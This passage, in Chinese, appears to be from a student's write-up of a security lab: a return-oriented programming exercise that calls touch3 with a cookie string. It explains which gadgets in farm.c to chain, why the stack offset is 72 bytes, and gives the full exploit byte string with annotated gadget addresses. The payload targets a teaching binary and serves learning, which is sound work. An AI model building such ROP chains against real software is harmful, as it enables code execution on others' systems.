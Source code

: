 ![image-20230625232919874](https://cdn.jsdelivr.net/gh/Real-Rio/pictures/img/image-20230625232919874.png)

然而搜索farm.c中片段发现，源操作数为esp的movl指令后往往跟的是ret指令，也就是说我们不能让栈指针指向下一个地址单元再返回

![image-20230627154656634](https://cdn.jsdelivr.net/gh/Real-Rio/pictures/img/image-20230627154656634.png)

因此我们需要转换思路，cookie ascii的地址不能一次保存到edi中，那就分两次保存。正好有如下的代码片段`rax=rdi+rsi`，我们可以将esp保存到rdi中，将cookie ascii码离esp的偏移量保存到rsi中，两个相加就可得到ascii码的绝对地址

```asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3   
```

最后字符串的安排如下

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00  <-- movq %rsp, %rax
c5 19 40 00 00 00 00 00  <-- movq %rax, %rdi
ab 19 40 00 00 00 00 00  <-- popq %rax
48 00 00 00 00 00 00 00  <-- 偏移量
42 1a 40 00 00 00 00 00  <-- movl %eax, %edx
34 1a 40 00 00 00 00 00  <-- movl %edx, %ecx
27 1a 40 00 00 00 00 00  <-- movl %ecx, %esi
d6 19 40 00 00 00 00 00  <-- lea  (%rdi,%rsi,1),%rax
c5 19 40 00 00 00 00 00  <-- movq %rax, %rdi
fa 18 40 00 00 00 00 00  <-- touch3地址
35 39 62 39 39 37 66 61  <-- cookie ascii码
00 00 00 00 00 00 00 00  <-- Null terminator
```

- cookie值需要放到最后，因为字符串的末尾应该是`00`
- 执行第一条语句`movq rsp,rax`时，此时的rsp指向下一条语句，因此到cookie ascii的偏移量为72个字节
